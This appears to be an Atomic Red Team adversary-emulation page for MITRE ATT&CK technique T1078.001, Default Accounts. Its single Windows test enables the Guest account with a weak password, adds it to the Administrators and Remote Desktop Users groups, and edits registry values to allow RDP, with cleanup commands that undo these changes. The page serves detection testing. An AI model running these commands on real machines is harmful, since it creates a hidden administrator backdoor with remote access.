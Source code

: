 # T1078.001 - Default Accounts
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1078/001)
<blockquote>Adversaries may obtain and abuse credentials of a default account as a means of gaining Initial Access, Persistence, Privilege Escalation, or Defense Evasion. Default accounts are those that are built-into an OS, such as the Guest or Administrator accounts on Windows systems or default factory/provider set accounts on other types of systems, software, or devices.(Citation: Microsoft Local Accounts Feb 2019)

Default accounts are not limited to client machines, rather also include accounts that are preset for equipment such as network devices and computer applications whether they are internal, open source, or commercial. Appliances that come preset with a username and password combination pose a serious threat to organizations that do not change it post installation, as they are easy targets for an adversary. Similarly, adversaries may also utilize publicly disclosed or stolen [Private Keys](https://attack.mitre.org/techniques/T1552/004) or credential materials to legitimately connect to remote environments via [Remote Services](https://attack.mitre.org/techniques/T1021).(Citation: Metasploit SSH Module)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Guest account with RDP capability and admin priviliges](#atomic-test-1---enable-guest-account-with-rdp-capability-and-admin-priviliges)


<br/>

## Atomic Test #1 - Enable Guest account with RDP capability and admin priviliges
After execution the Default Guest account will be enabled (Active) and added to Administrators and Remote Desktop Users Group, and desktop will allow multiple RDP connections

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| guest_user | Specify the guest account | String | guest|
| guest_password | Specify the guest password | String | Password123!|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user #{guest_user} /active:yes
net user #{guest_user} #{guest_password}
net localgroup administrators #{guest_user} /add
net localgroup "Remote Desktop Users" #{guest_user} /add
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
```

#### Cleanup Commands:
```cmd
net user #{guest_user} /active:no >nul 2>&1
net localgroup administrators #{guest_user} /delete >nul 2>&1
net localgroup "Remote Desktop Users" #{guest_user} /delete >nul 2>&1
reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /f >nul 2>&1
reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /f >nul 2>&1
```





<br/>
